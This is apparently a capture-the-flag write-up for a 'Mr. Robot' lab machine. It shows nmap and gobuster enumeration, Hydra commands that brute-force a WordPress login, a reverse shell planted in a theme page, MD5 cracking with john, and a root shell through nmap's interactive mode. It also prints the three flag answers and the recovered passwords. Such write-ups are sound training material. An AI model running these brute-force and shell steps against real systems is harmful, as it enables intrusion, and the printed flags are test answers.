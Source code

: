 ```yaml
---
title: Mr. Robot
date: 2022-04-29 17:00:00 +500
categories: [THM, medium machine]
tags: []     # TAG names should always be lowercase
---
```




## Hack the machine

### What is key 1?

As usual, I'll start with the Nmap scan:

```
PORT    STATE  SERVICE  VERSION
80/tcp  open   http     Apache httpd
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache
443/tcp open   ssl/http Apache httpd
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
```

we got two web servers, one with HTTP protocol and the other with HTTPS, looking into them they're the same, a page with the Mr. Robot series theme, but nothing really to look into.

let's perform a gobuster scan, to see if there's a hidden directory

```terminal
gobuster dir -u 10.10.133.98 -w /usr/share/dirb/wordlists/common.txt
```

```
/0                    (Status: 301) [Size: 0] [--> http://10.10.133.98/0/]
/admin                (Status: 301) [Size: 234] [--> http://10.10.133.98/admin/]
/atom                 (Status: 301) [Size: 0] [--> http://10.10.133.98/feed/atom/]
/audio                (Status: 301) [Size: 234] [--> http://10.10.133.98/audio/]
/blog                 (Status: 301) [Size: 233] [--> http://10.10.133.98/blog/]
/css                  (Status: 301) [Size: 232] [--> http://10.10.133.98/css/]
/dashboard            (Status: 302) [Size: 0] [--> http://10.10.133.98/wp-admin/]
/favicon.ico          (Status: 200) [Size: 0]
/feed                 (Status: 301) [Size: 0] [--> http://10.10.133.98/feed/]
/image                (Status: 301) [Size: 0] [--> http://10.10.133.98/image/]
/Image                (Status: 301) [Size: 0] [--> http://10.10.133.98/Image/]
/images               (Status: 301) [Size: 235] [--> http://10.10.133.98/images/]
/index.html           (Status: 200) [Size: 1188]
/index.php            (Status: 301) [Size: 0] [--> http://10.10.133.98/]
/intro                (Status: 200) [Size: 516314]
/js                   (Status: 301) [Size: 231] [--> http://10.10.133.98/js/]
/license              (Status: 200) [Size: 309]
/login                (Status: 302) [Size: 0] [--> http://10.10.133.98/wp-login.php]
/page1                (Status: 301) [Size: 0] [--> http://10.10.133.98/]
/phpmyadmin           (Status: 403) [Size: 94]
/rdf                  (Status: 301) [Size: 0] [--> http://10.10.133.98/feed/rdf/]
/readme               (Status: 200) [Size: 64]
/robots               (Status: 200) [Size: 41]
/robots.txt           (Status: 200) [Size: 41]
/rss                  (Status: 301) [Size: 0] [--> http://10.10.133.98/feed/]
/rss2                 (Status: 301) [Size: 0] [--> http://10.10.133.98/feed/]
/sitemap              (Status: 200) [Size: 0]
/sitemap.xml          (Status: 200) [Size: 0]
/video                (Status: 301) [Size: 234] [--> http://10.10.133.98/video/]
/wp-admin             (Status: 301) [Size: 237] [--> http://10.10.133.98/wp-admin/]
/wp-content           (Status: 301) [Size: 239] [--> http://10.10.133.98/wp-content/]
/wp-includes          (Status: 301) [Size: 240] [--> http://10.10.133.98/wp-includes/]
/wp-cron              (Status: 200) [Size: 0]
/wp-config            (Status: 200) [Size: 0]
/wp-links-opml        (Status: 200) [Size: 227]
/wp-load              (Status: 200) [Size: 0]
/wp-login             (Status: 200) [Size: 2606]
/wp-mail              (Status: 500) [Size: 3064]
/wp-settings          (Status: 500) [Size: 0]
/wp-signup            (Status: 302) [Size: 0] [--> http://10.10.133.98/wp-login.php?action=register]      
/xmlrpc.php           (Status: 405) [Size: 42]
/xmlrpc               (Status: 405) [Size: 42]
```

quite an output we got, with a couple of interesting things, now we know the site is built on WordPress, and the robots file was readable, and we now have two more file directories

* fsocity.dic
    
    which is a dictionary that we may need to use for later brute-forcing

* key-1-of-3.txt

    which is the first flag
    
> 073403c8a58a1f80d943455fb30724b9

### What is key 2?

now with that dictionary, I'll try to brute force the WordPress login page, to do that I'll use hydra.

this page has a major flaw because it tells us when the username is invalid, so we will brute force the username first until we found a valid username and then try with the password.

the syntax will be:
```
hydra -l <USER> -p <Password> <IP Address> http-post-form “<Login Page>:<Request Body>:<Error Message>”
```

* USER

    In this case, we will brute force the username so this would be the dictionary

* Password

    This can be anything it doesn't matter

* Login Page

    this is the directory of the login page, in this case '/wp-login.php'

* Request body

    You can get this by opening the console of your browser, and in the network tab viewing the POST request to wp-login.php after entering anything and pressing login, in this case, I put in both username and password and this is the request body 'log=a&pwd=a&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.133.98%2Fwp-admin%2F&testcookie=1'.

    But we need two change the part where the username and password go through the request so hydra will know what to change. In the user put ^USER^ and the password ^PWD^.

    log=^USER^&pwd=^PWD^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.133.98%2Fwp-admin%2F&testcookie=1


* Error Message

    this is the message we got 'Invalid username.'


the final command would be this:

```terminal
hydra -L fsocity.dic -p 'a' 10.10.133.98 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.133.98%2Fwp-admin%2F&testcookie=1:Invalid username."
```

and we got
```
[80][http-post-form] host: 10.10.133.98   login: Elliot   password: a
```

now let's try to get the password for Elliot, we just need to change the user, password, and error message of the hydra command. And the flags also, if -l or -p are in lowercase it means that it's just one, and if they are in uppercase means that are multiple of: like a dictionary file.

```terminal
hydra -l Elliot -P fsocity.dic 10.10.133.98 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.133.98%2Fwp-admin%2F&testcookie=1:The password you entered for the username Elliot is incorrect." 
```

and the password is 'ER28-0652'

looking around there was not much around, so since we are an admin user I'll try to change one page to be a reverse shell, to do this I go to appearance, then editor, and you can change whatever .php file you'd like, in this case, I'll change the 404 page.
I'll use the pentest monkey reverse shell, set up a listener, and go to /wordpress/wp-content/themes/twentyfifteen/404.php, since the page we changed is from the theme twentyfiftteen.

and we got a shell!

we found a user called robot, in his home directory have two files, the second key, which we don't have permission to read, and a password.raw-md5 file which apparently has the credentials for this user, with the password encrypted, let's try to decrypt it.

the title of the file was very descriptive and tells us that is md5 raw encrypted, so I'll use hashcat with the fsocity.dic to decrypt it.

so it ended up not working, so I used john

```terminal
john --wordlist=fsocity.dic --format=Raw-MD5 encryptedpass
```

the password being: 'abcdefghijklmnopqrstuvwxyz'

now that we have access to the robot user, we can cat out the second key:

> 822c73956184f694993bede3eb39f959

### What is key 3?

now I guess all it's left to do is privilege escalation, I try with the tried and true sudo -l with no luck, then I search for SUID files and I saw something strange, Nmap.

In this part I went down a rabbit hole, in gtfobins I tried to follow the suid way of exploit where it said you can overwrite a file with sudo, so I tried many ways to change the /etc/shadow file to change the root user password with no luck.

The way to gain a root shell was actually quite easy 

```terminal
nmap --interactive
```

then

```
nmap> !sh
```

and we got ourselves a root shell, all it's left to do is to go read the third key in the /root directory

> 04787ddef27c3dee1ee161b21670b4e4